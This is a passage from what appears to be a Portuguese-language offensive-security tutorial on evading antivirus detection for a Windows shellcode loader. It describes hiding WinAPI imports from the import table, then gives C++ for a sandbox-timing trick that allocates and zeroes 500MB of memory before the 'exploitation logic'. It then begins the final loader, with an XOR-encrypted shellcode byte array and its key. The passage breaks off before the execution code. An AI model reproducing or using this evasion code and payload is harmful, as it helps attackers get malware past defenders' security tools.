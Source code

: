 Com esta implementação, quase todas as funções utilizadas no programa que foram extraídas da WinAPI não fazem mais parte da *import address table* e nem aparecem nas *strings* do programa.

## Vencendo pelo tempo

Esta implementação é a mais simples e pode não ser efetiva em muitos antivírus mais robustos, porém é uma técnica bastante utilizada que vale a pena implementar.

Uma das limitações de muitos scanners dos antivírus é o tempo que tem para realizar esta tarefa. Imagine que, quando um scan se inicia no SO, milhares de arquivos precisam ser escaneados. Isso implica no fato de que os scanners não tem muito tempo para gastar em cada arquivo, fazendo com que arquivos que consumam muita memória sejam varridos de forma mais superficial.

Neste caso, uma das técnicas mais utilizadas é justamente alocar uma grande quantidade de memória dinâmica antes de se iniciar a lógica da exploração. Por exemplo, podemos alocar na *heap* `500MB` de memória e preenchê-la com zeros:

```cpp
char *mem = NULL;
mem = (char *) malloc(500000000);
if (mem != NULL) {
	memset(mem, 00, 500000000);
	free(mem);
	// lógica da exploração
}
```

Eu falo muito sobre a *heap* no meu [*Paper Heap Exploitation*](https://h41stur.com/posts/paper-heap/).

Com esta implementação, o código final fica da seguinte forma:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char shellcode[] = {0x06, 0xa8, 0x57, 0xed, 0x00, 0x73, 0x37, 0x43, 0xbf, 0x32, 0x6f, 0xbb, 0x33, 0x20, 0xbc, 0x68, 0xb8, 0x4c, 0xbb, 0x2b, 0x27, 0x72, 0xe6, 0x1a, 0x10, 0x43, 0x3d, 0x7a, 0x51, 0xe9, 0x5f, 0x68, 0x32, 0x3d, 0x79, 0x2b, 0x50, 0x16, 0x11, 0x55, 0x1b, 0x46, 0x58, 0x0b, 0x72, 0x24, 0x77, 0x16, 0x43, 0x13, 0xbf, 0x21, 0x5f, 0x31, 0xa9, 0xbf, 0x65, 0x10, 0x32, 0x96, 0xbb, 0x39, 0x17, 0x42, 0xed, 0xfb, 0x2e, 0xcc, 0xf8, 0x66, 0x2b, 0x69, 0xe9, 0x7d, 0xf0, 0x42, 0xfe, 0xca, 0xd2, 0xf9, 0x1e, 0xcc, 0xf8, 0x08, 0xb0, 0x69, 0xec, 0x2a, 0xb3, 0xb2, 0x30, 0xb0, 0x52, 0xd5, 0x17, 0x33, 0x33, 0xd6, 0xdf, 0xeb, 0xf3, 0x4e, 0xbb, 0x4f, 0xb5, 0x42, 0xeb, 0xfb, 0x9e, 0x01, 0xba, 0x65, 0x5f, 0x09, 0x41, 0x35, 0x71, 0x1b, 0x7b, 0x2a, 0x56, 0x00, 0x0b, 0x7c, 0x1c, 0x55, 0x53, 0x3c, 0x60, 0xb3, 0xe5, 0x1b, 0x04, 0x71, 0x7a, 0x3c, 0x05, 0xb1, 0x1f, 0x10, 0x35, 0x26, 0x7d, 0x24, 0x47, 0x00, 0x05, 0x1c, 0x60, 0x8d, 0xb3, 0xb9, 0xb5, 0x5c, 0x42, 0x18, 0x7d, 0x02, 0x56, 0xf2, 0x5b, 0x67, 0x36, 0x3c, 0x2d, 0x58, 0x07, 0x55, 0x45, 0x1c, 0x5b, 0x1b, 0x63, 0x32, 0x64, 0x17, 0x62, 0x8d, 0xb6, 0x01, 0xa1, 0x52, 0x8d, 0xf8, 0x32, 0x65, 0xe4, 0x27, 0x65, 0xbc, 0xe4, 0x1a, 0x17, 0x71, 0x3d, 0x7a, 0x51, 0xe9, 0x5f, 0x68, 0x32, 0x3d, 0x79, 0x2b, 0x5b, 0x11, 0x08, 0x55, 0x1b, 0x63, 0x64, 0x29, 0x60, 0x18, 0x66, 0x8c, 0xe2, 0x72, 0xe6, 0x20, 0x31, 0x62, 0xc1, 0x32, 0x65, 0xe8, 0xd9, 0x49, 0x62, 0x31, 0x65, 0xbc, 0xe4, 0x22, 0x3c, 0x58, 0x16, 0x57, 0x43, 0x26, 0x55, 0xcf, 0x5c, 0x57, 0x34, 0x0d, 0x5c, 0x11, 0x0c, 0x5e, 0x1d, 0x60, 0x61, 0x97, 0xe6, 0xf6, 0xf1, 0xda, 0x7f, 0xc2, 0xb5, 0x98, 0x62, 0x31, 0x72, 0x35, 0x65, 0x0e, 0x5b, 0x6c, 0xcb, 0x42, 0xe5, 0xf1, 0x36, 0x14, 0x31, 0xb9, 0x91, 0x5e, 0x27, 0x3a, 0x64, 0xb3, 0xe0, 0x1b, 0x44, 0x02, 0x7a, 0x3c, 0x05, 0xb1, 0x1f, 0x10, 0x35, 0x26, 0x7d, 0x24, 0x5f, 0x10, 0x52, 0x30, 0x5c, 0x06, 0x06, 0x60, 0x01, 0x5c, 0x74, 0x1a, 0x56, 0x2d, 0x64, 0x20, 0xc8, 0x96, 0xbd, 0xac, 0x0b, 0x53, 0x1e, 0x50, 0x79, 0x0e, 0xb0, 0x20, 0x14, 0x70, 0x79, 0xca, 0xd7, 0x25, 0x34, 0x67, 0x42, 0xcb, 0x5d, 0x7a, 0x6a, 0x1b, 0xd2, 0x8e, 0x51, 0x84, 0x70, 0x56, 0x5f, 0x31, 0x72, 0xf2, 0x73, 0x4c, 0x23, 0x08, 0xbd, 0x3f, 0x13, 0x53, 0x60, 0x23, 0x34, 0x67, 0x24, 0x73, 0x60, 0x27, 0x64, 0x1b, 0x63, 0x24, 0xc8, 0x93, 0x5c, 0x17, 0x10, 0x43, 0x3d, 0x52, 0xb4, 0x04, 0x17, 0x4f, 0x7e, 0x1b, 0x67, 0x31, 0x5b, 0x11, 0x0b, 0x75, 0x0b, 0x5d, 0x43, 0x3c, 0x65, 0xb3, 0xe5, 0x42, 0xfe, 0x12, 0xcb, 0xa2};

unsigned int shellcode_size = sizeof(shellcode);

char xor_key[] = "7h3L0s7C4rc0s4";

```